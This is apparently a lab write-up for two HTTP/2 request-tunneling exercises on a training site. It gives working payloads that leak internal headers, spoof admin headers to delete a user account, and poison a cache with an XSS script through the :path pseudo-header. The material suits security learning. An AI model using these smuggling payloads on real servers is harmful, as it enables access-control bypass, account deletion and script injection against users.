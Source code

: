 ```
```

# Request tunneling
1. This lab is about using a tunneled request to leak internal headers, and then use those internal headers to create a tunneled request that delets a user's account. To leak the headers, a POST request can be sent to the home page with the following header added and a search term that's over 500 characters long:
```
foo: bar\r\n
Content-Length: 500\r\n
\r\n
search=x
```
The previous is the name of the header, the value can be arbitrary. Once the leaked headers and values are found, the following header can be sent in a `HEAD` request to `/login` in order to delete the `carlos` account:
```
foo: bar

GET /admin/delete?username=carlos HTTP/1.1
X-SSL-VERIFIED: 1
X-SSL-CLIENT-CN: administrator
X-FRONTEND-KEY: 9781526443806180


```
Once again, the previous is just the name of the header and the value is arbitrary
2. This lab is about poisoning the cache with an XSS response that isn't normally accessible via request tunneling. This is done through smuggling a request in the `:path` HTTP/2 pseudo-header value, taking advantage of the fact that sending a request to the `/resources` endpoint results in a redirect to `/resources/`. As such, by tunneling a request to `/resources?<script>alert()</script>`, we can get an embedded response containing the string `/resources/?<script>alert()</script>`, which will be interpreted as HTML by the encapsulating (and cacheable) response. In order to prevent issues with timing out, the path request must be at least 8308 bytes long (when using the home page as a target), so I padded the payload with the character `a` until is was long enough. Sending a HTTP/2 HEAD request to `/` with the following value for the `:path` pseudo-header results in the cache poisoning XSS:
```
/ HTTP/1.1
Host: ac711fa51e8d06ffc0e9a05400980086.web-security-academy.net

GET /resources?<script>alert()</script>aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...] HTTP/1.1
Foo: bar
```
Note that all newlines in the payload are full `\r\n` sequences
